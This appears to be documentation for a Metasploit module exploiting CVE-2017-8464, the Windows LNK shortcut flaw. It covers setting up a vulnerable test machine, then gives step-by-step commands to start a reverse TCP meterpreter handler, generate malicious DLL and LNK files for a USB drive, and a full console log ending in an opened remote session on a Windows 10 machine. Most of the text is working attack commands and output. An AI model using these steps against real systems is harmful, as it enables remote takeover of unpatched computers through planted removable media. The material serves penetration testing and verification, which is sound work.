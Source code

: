 ## Vulnerable Application

Any Windows versions without the patch for CVE-2017-8464. The exploit doesn't appear to work with UNC drives. Because of this the DLL file needs to be on the local file system or an USB drive. A fix was released on June 2017 Patch Tuesday.

## Vulnerable Setup

To set up the vulnerable environment, install a Windows version without the patch for CVE-2017-8464. To test the bypass, make sure that MS10-046 & MS15-020 are installed.

## Verification Steps

### Start a handler
  1. `use exploit/multi/handler`
  2. `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
  3. `set LHOST [ip victim connects back to]`
  4. `exploit -j`
  5. `back`

### Run the exploit

  1. `use exploit/windows/smb/cve_2017_8464_lnk_rce`
  2. `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
  3. `set LHOST [ip victim connects back to]`
  4. `exploit`

### Copy create files to USB drive & open on vulnerable system

  1. `cp /root/.msf4/local/* [USB drive path]`
  
### Windows 10 x64 (Build 14393)

```
msf > use exploit/multi/handler 
msf exploit(handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.146.197
LHOST => 192.168.146.197
msf exploit(handler) > exploit -j
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.146.197:4444 
[*] Starting the payload handler...
msf exploit(handler) > back
msf > use exploit/windows/smb/cve_2017_8464_lnk_rce 
msf exploit(cve_2017_8464_lnk_rce) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(cve_2017_8464_lnk_rce) > set LHOST 192.168.146.197
LHOST => 192.168.146.197
msf exploit(cve_2017_8464_lnk_rce) > exploit

[*] /root/.msf4/local/pkgHwAYhcfJtppgK.dll created copy it to the root folder of the target USB drive
[*] /root/.msf4/local/WLJdtpWiqtSlIlRg_D.lnk create, copy to the USB drive if drive letter is D
[*] /root/.msf4/local/YGgAGQnuljHPwuHA_E.lnk create, copy to the USB drive if drive letter is E
[*] /root/.msf4/local/UDDDONGKgFMjJJEo_F.lnk create, copy to the USB drive if drive letter is F
[*] /root/.msf4/local/iHQVetsiIiAKqTpK_G.lnk create, copy to the USB drive if drive letter is G
[*] /root/.msf4/local/dyRROtcWZfjcZFRF_H.lnk create, copy to the USB drive if drive letter is H
[*] /root/.msf4/local/RKgznCzbSnbUAsWC_I.lnk create, copy to the USB drive if drive letter is I
[*] /root/.msf4/local/IlpcLQtbToxOPYSo_J.lnk create, copy to the USB drive if drive letter is J
[*] /root/.msf4/local/lBSxxQHPjHUJBpcI_K.lnk create, copy to the USB drive if drive letter is K
[*] /root/.msf4/local/DlHXewmhYhQaJvQj_L.lnk create, copy to the USB drive if drive letter is L
[*] /root/.msf4/local/kqpBviLQOiHQpMRF_M.lnk create, copy to the USB drive if drive letter is M
[*] /root/.msf4/local/InzbuFNqLHTJpgEz_N.lnk create, copy to the USB drive if drive letter is N
[*] /root/.msf4/local/akRjMdiwJsBkSvKi_O.lnk create, copy to the USB drive if drive letter is O
[*] /root/.msf4/local/JyyzptnIfvAfWpTl_P.lnk create, copy to the USB drive if drive letter is P
[*] /root/.msf4/local/lXrtKBWZkYUOCvnK_Q.lnk create, copy to the USB drive if drive letter is Q
[*] /root/.msf4/local/bYIqaUmWWRXaOsnV_R.lnk create, copy to the USB drive if drive letter is R
[*] /root/.msf4/local/QwyQWcTucHvGHktl_S.lnk create, copy to the USB drive if drive letter is S
[*] /root/.msf4/local/MzGJjWuTJYNBlPIV_T.lnk create, copy to the USB drive if drive letter is T
[*] /root/.msf4/local/PeMnziXmGTOziiaX_U.lnk create, copy to the USB drive if drive letter is U
[*] /root/.msf4/local/VtwFEyxDOhdktdEW_V.lnk create, copy to the USB drive if drive letter is V
[*] /root/.msf4/local/kFkvMzooPPPkiKvw_W.lnk create, copy to the USB drive if drive letter is W
[*] /root/.msf4/local/AkEDlRPsfBEtUJch_X.lnk create, copy to the USB drive if drive letter is X
[*] /root/.msf4/local/vIgMqTMyRRjwWiAs_Y.lnk create, copy to the USB drive if drive letter is Y
[*] /root/.msf4/local/baIHTqMoWyvsbnKM_Z.lnk create, copy to the USB drive if drive letter is Z
msf exploit(cve_2017_8464_lnk_rce) > 
[*] Sending stage (1189423 bytes) to 192.168.146.193
[*] Meterpreter session 1 opened (192.168.146.197:4444 -> 192.168.146.193:50020) at 2017-07-25 19:28:27 +0200
sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-5G8HK7E
OS              : Windows 10 (Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > 
```
